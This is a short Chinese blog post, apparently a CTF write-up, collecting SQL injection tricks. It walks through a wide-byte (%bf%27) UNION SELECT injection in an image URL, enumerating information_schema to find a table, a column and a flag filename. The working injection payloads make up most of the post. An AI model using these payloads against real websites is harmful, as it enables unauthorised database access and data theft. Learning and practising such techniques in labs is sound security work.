 ```yaml
---
title: injection skills
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - burp
---
```


 网上收集的注入技巧。
 
{% raw %}
<pre>
图片链接的宽字节注入
hex(r0466cplushua)=0x723034363663706c7573687561
hex(pic)=0x706963
cat1.jpg%bf%27 union select 1,2,TABLE_NAME,4 from information_schema.TABLES where table_SCHEMA=0x723034363663706c7573687561 limit 1,1#
cat1.jpg%bf%27 union select 1,2,COLUMN_NAME,4 from information_schema.COLUMNS where table_NAME=0x706963 limit 1,1#
cat1.jpg%bf%27 union select 1,2,picname,4 from pic limit 2,1#

http://xxx/images/cat1.jpg%bf%27%20union%20select%201,2,TABLE_NAME,4%20from%20information_schema.TABLES%20where%20table_SCHEMA=0x723034363663706c7573687561%20limit%201,1%23
得到表名：pic
http://xxx/images/cat1.jpg%bf%27%20union%20select%201,2,COLUMN_NAME,4%20from%20information_schema.COLUMNS%20where%20table_NAME=0x706963%20limit%201,1%23
得到字段名：picname
http://xxx/images/cat1.jpg%bf%27%20union%20select%201,2,picname,4%20from%20pic%20limit%202,1%23
得到图片名称：flagishere_askldjfklasjdfl.jpg
</pre>
{% endraw %}
 

相关链接：

[图片链接的宽字节注入writeup](http://www.tuicool.com/articles/e6ZRfei)
[网络信息安全攻防学习平台](http://www.waitalone.cn/security-sqlinject-jpg.html)

